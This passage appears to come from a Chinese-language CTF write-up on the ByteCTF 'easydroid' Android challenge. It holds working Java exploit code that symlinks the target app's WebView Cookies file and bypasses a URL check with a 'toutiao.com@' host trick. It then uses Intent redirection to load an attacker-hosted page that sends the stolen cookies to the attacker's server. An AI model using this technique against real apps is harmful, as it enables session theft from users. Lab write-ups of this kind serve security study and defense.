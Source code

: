 理清思路后，我们来看一下攻击代码：

protected void onCreate(Bundle savedInstanceState) {  
 super.onCreate(savedInstanceState);  
 setContentView(R.layout.activity\_main);  
 symlink();  
 Intent intent \\= new Intent();  
 intent.setClassName("com.bytectf.easydroid","com.bytectf.easydroid.MainActivity");  
 intent.setData(Uri.parse("[http://toutiao.com@192.168.43.164/easydroid.html](http://192.168.43.164/easydroid.html)"));  
 startActivity(intent);  
}  
​  
​  
private String symlink() {  
 try {  
 String root \\= getApplicationInfo().dataDir;  
 String symlink \\= root + "/symlink.html";  
 String cookies \\= getPackageManager().getApplicationInfo("com.bytectf.easydroid", 0).dataDir + "/app\_webview/Cookies";  
​  
 Runtime.getRuntime().exec("rm " + symlink).waitFor();  
 Runtime.getRuntime().exec("ln -s " + cookies + " " + symlink).waitFor();  
 Runtime.getRuntime().exec("chmod -R 777 " + root).waitFor();  
​  
 return symlink;  
 } catch (Throwable th) {  
 throw new RuntimeException(th);  
 }  
}

整个漏洞利用流程：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-604c9ddc95f74b23660eb51931dc70712d6ea2dc.png)

首先创建了符号链接，然后过URL校验，访问我们的服务器`http://192.168.43.164/easydroid.html`:

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-bc66197bd7d6baa19767fef38c6e08f3b60df8fb.png)

通过Intent重定向，首先加载exp.html来设置cookie，然后再加载symlink.html，将所要Cookies内容返回给我们的服务器。最终达到窃取Cookies的目的。注意，这里要保证setAllowFileAccess(true)，API 29以下默认为true，否则会利用失败。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-34f9cee12ba2a001fa4fcc482d15a5908b1b188f.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-7db4c4ed26ee506359d2d454bb389ba0c0c0ff8f.png)

### 参考

<https://shvu8e0g7u.feishu.cn/docs/doccndYygIwisrk0FGKnKvE0Jhg>  
<https://www.cnblogs.com/rebeyond/p/10916076.html>  
<https://support.google.com/faqs/answer/9084685>  
<https://blog.csdn.net/zxc024000/article/details/90298159>  
<https://www.runoob.com/w3cnote/android-tutorial-webview.html>